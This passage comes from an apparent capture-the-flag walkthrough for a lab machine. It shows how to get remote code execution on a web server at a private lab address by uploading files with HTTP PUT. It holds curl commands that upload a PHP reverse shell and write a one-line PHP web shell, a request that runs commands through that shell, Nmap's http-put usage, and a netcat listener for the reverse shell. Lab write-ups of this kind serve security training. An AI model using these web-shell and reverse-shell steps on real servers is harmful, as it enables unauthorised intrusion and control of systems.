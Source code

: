 ```
curl --upload-file php-reverse-shell.php -v --url http://192.168.56.106/test/shell.php -0 --http1.0
```

The shell can also be downloaded from here: [PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

![Uploading via PUT](/Images/vh_sickos_put_upload.jpg)

We can also get a very simple PHP command execution on the server using this curl command to write to a cmd.php file.
```
curl -X PUT -d '<?php system($_GET["cmd"]);' http://192.168.56.106/test/cmd.php
```

Execute code on the server by specifying the cmd parameter for this new cmd.php script.
```
curl "http://192.168.56.106/test/cmd.php?cmd=ls%20-lah"
```

**Note** - Nmap also has a [http-put.nse](https://nmap.org/nsedoc/scripts/http-put.html) script that allows you to easily upload files to a specified system.
> " Uploads a local file to a remote web server using the HTTP PUT method. You must specify the filename and URL path with NSE arguments."

Example usage:
```
nmap -p 80 <ip> --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'
```

Once you uploaded the PHP reverse shell open up a listener on your attacking system.
```
sudo nc -nvlp 443
```
